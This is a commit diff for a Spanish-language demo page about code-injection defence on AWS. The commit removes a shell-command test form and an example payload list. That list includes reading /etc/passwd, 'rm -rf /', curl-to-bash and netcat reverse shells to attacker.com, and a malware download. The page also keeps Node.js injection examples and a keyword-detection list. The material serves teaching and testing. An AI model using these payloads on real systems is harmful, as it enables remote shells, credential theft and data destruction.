

Before and after one commit to johnnyredwood/ArquitecturaDefensaWebAWS, a website: page app/views/code-injection.html in a window 1280 px wide. Shown: the part 653-1913 px from the top of the page at 86% size. After the commit the page ends 1333 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
removing shell as it is illogical

```diff
--- a/app/views/code-injection.html
+++ b/app/views/code-injection.html
@@ -39,25 +39,6 @@
         </div>
 
         <div class="card">
-            <h2>Prueba Command Injection (Shell)</h2>
-            <p>Simula ejecución directa de comandos shell:</p>
-
-            <form action="/shell" method="POST" class="form-group">
-                <label for="command">Comando Shell:</label>
-                <input type="text" id="command" name="command" class="form-control"
-                       placeholder="ej. ls -la o whoami" required>
-                <button type="submit" class="btn btn-danger" style="margin-top: 1rem;">
-                    Ejecutar Comando
-                </button>
-            </form>
-
-            <div class="alert alert-danger" style="margin-top: 1rem;">
-                <strong>Comandos peligrosos:</strong>
-                <code>cat /etc/passwd</code>, <code>whoami</code>, <code>rm -rf /</code>
-            </div>
-        </div>
-
-        <div class="card">
             <h2>Ejemplos de Código Malicioso</h2>
             <div class="test-examples">
                 <h3>Inyección de Código JavaScript (Node.js):</h3>
@@ -69,16 +50,6 @@
                     <li><code>require('os').userInfo()</code> - Información del usuario del sistema</li>
                     <li><code>require('fs').writeFileSync('hack.txt', 'hacked')</code> - Escribir archivos</li>
                 </ul>
-
-                <h3>Inyección de Comandos Shell:</h3>
-                <ul>
-                    <li><code>; cat /etc/passwd</code> - Leer archivos sensibles</li>
-                    <li><code>| whoami</code> - Identificar usuario actual</li>
-                    <li><code>&& rm -rf /</code> - Comando destructivo</li>
-                    <li><code>`curl http://attacker.com/shell.sh | bash`</code> - Reverse shell</li>
-                    <li><code>$(wget http://malware.com/virus)</code> - Descarga de malware</li>
-                    <li><code>; nc -e /bin/sh attacker.com 4444</code> - Netcat reverse shell</li>
-                </ul>
             </div>
         </div>
 
@@ -89,8 +60,6 @@
                 <ul>
                     <li>Palabras clave de ejecución: <code>exec</code>, <code>eval</code>, <code>system</code></li>
                     <li>Acceso a módulos sensibles: <code>require</code>, <code>import</code>, <code>fs</code>, <code>child_process</code></li>
-                    <li>Comandos shell: <code>cat</code>, <code>ls</code>, <code>whoami</code>, <code>wget</code>, <code>curl</code>, <code>nc</code></li>
-                    <li>Operadores de inyección: <code>;</code>, <code>|</code>, <code>&&</code>, <code>||</code>, <code>`</code>, <code>$( )</code></li>
                     <li>Path traversal: <code>../</code>, <code>..\\</code></li>
                 </ul>
             </div>
```
